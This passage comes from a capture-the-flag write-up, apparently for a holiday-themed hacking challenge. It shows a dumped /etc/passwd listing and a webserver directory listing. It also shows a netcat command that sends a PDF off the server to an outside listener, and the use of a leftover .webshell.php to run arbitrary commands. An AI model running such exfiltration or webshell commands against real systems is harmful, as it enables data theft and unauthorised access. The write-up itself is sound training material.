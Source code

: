 ```
sshd:x:107:65534::/run/sshd:/usr/sbin/nologin
gke-ed150e57664e0ca33a0d:x:1000:1001::/home/gke-ed150e57664e0ca33a0d:/bin/bash
chris:x:1002:1003::/home/chris:/bin/bash
alabaster_snowball:x:1003:1004:Alabaster Snowball,,,:/home/alabaster_snowball:/bin/rbash
daniel:x:1004:1005::/home/daniel:/bin/bash
messagebus:x:108:112::/var/run/dbus:/bin/false
ron:x:1005:1006::/home/ron:/bin/bash
dpendolino:x:1006:1007::/home/dpendolino:/bin/bash
tkh16:x:1007:1008::/home/tkh16:/bin/bash
jeff:x:1008:1009::/home/jeff:/bin/bash
tom:x:1009:1010::/home/tom:/bin/bash
```

We can also, as prompted by question #2, look for the Great Book Page in the root of the webserver:

```
alabaster_snowball@l2s:/tmp/asnow.3lNOwcLHyQVgcfuNB93khBHs$ cd /var/www/html
alabaster_snowball@l2s:/var/www/html$ ls -la
ls -la
total 1776
drwxrwxrwt 6 www-data           www-data              4096 Dec 20 06:04 .
drwxr-xr-x 3 root               root                  4096 Oct 12 14:35 ..
drwxr-xr-x 2 root               www-data              4096 Oct 12 19:03 css
drwxr-xr-x 3 root               www-data              4096 Oct 12 19:40 fonts
-r--r--r-- 1 root               www-data           1764298 Dec  4 20:25 GreatBookPage2.pdf
drwxr-xr-x 2 root               www-data              4096 Oct 12 19:14 imgs
-rw-r--r-- 1 root               www-data             14501 Nov 24 20:53 index.html
drwxr-xr-x 2 root               www-data              4096 Oct 12 19:11 js
-rwx------ 1 www-data           www-data               231 Oct 12 21:25 process.php
-rw-r--r-- 1 alabaster_snowball alabaster_snowball     340 Dec 20 04:01 .quackquackhere.php
-rw-r--r-- 1 alabaster_snowball alabaster_snowball     344 Dec 20 05:46 .webshell.php
```

There it is! Now how to get it...

Well, one option is to start a netcat listener on my local machine:

```
root@kali:~$ nc -l -p 6666 > GreatBookPage2.pdf
```

And to then feed in the book from the server:

```
alabaster_snowball@l2s:/var/www/html$ nc xx.xx.xx.xx 6666 < GreatBookPage2.pdf
```

I also found a `.webshell.php` file in the web server root, that I was able to test and verify that I could access it via https://l2s.northpolechristmastown.com/.webshell.php

That provided a prompt which I was able to issue arbitrary commands into, which would output the results to the screen. E.g.

```
cat /etc/hosts
```
